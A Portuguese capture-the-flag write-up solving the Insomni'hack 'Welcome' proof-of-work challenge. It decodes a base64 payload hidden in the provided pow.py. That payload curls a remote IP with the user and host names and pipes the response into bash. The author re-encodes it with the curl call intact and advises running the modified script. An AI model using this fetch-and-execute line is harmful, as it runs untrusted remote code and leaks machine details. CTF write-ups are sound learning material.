 # Welcome

Essa foi a Chall inicial do CTF que, apesar de ser um pouco mais complexas que as demais "Welcome's", vamos ver que não tem nada de complicado.

Primeiro vamos ver o anúncio da Chall
![description](description.png)

Então aqui, temos um arquivo chamado `pow` para baixar e um alvo que podemos acessar via Netcat (nc welcome.insomnihack.ch 1337).

Primeiro vamos executar o comando no terminal e vermos a saida
```bash
nc welcome.insomnihack.ch 1337
```
![netcat](netcat.png)

O script está nos pedindo um hash MD5 em que a inicial seja `92cea2` (esse valor á alterado a cada vez que executamos o script).

Bom, vamos então fazer um code review no arquivo que foi disponibilizado.

![pow.py](pow.py.png)

Vendo rapidamente o código, podemos notar que esse script em python está gerando hashes em números sequenciais, até achar um número que tenha a inicial como esperamos. Vamos então executar esse script passando como parâmentro, a inicial que nos foi passada (92cea2).
```bash
python pow.py 92cea2
```
Depois de esperar por alguns poucos minutos, o script conseguiu me retornar o hash de algum número que, em MD5 tenha a mesma inicial que esperamos. Então vamos inserir o valor e... Ops, algo deu errado! Mal deram um start no ano de 2020 e já estou no "Wall of Shame". É um belo jeito de começar o ano não?

![shame](shame.png)

Precisamos fazer um code review mais detalhado para acharmos essa solução. O único ponto realmente estranho nesse código, sem dúvidas é esse base64 na linha 18. Vamos verificar o seu conteúdo com o comando:
```bash
echo 'Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp' | base64 -d
```

![base64_decode](base64_decode.png)

Vamos pensar juntos... O retorno do número que nos dará uma hash válida, está na variável `i`, porém o base64 irá incrementar o valor de `1337` no valor de  `i`. Essa valor (1337) foi adicionado somente como uma forma de enganar "olhos desatentos", já que é o mesmo número da porta que estamos acessando o host.

Realizar uma alteração nesse script é fácil, iremos executar o seguinte comando para remover o `i+=1337` e converter em base64:
```bash
echo -n 'global i;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)' | base64
```

![fix_base64](fix_base64.png)

---
**ATENÇÃO.:** A saída do base64 está quebrado em algumas linhas, porém o seu valor original deve ficar somente em uma única linha e sem espaços. 

---

Agora que temos nosso base64 correto, vamos editar o arquivo `pow.py` na linha `18` e substituí-lo pelo encode correto.

Feito isso, só precisamos executar novamente o comando `nc welcome.insomnihack.ch 1337` e em outro terminal, executar o arquivo `pow.py`.

![flag](flag.png)

Bazinga! Capturamos nossa Flag.
Espero poder ter te ajudado em algo!

Abs...
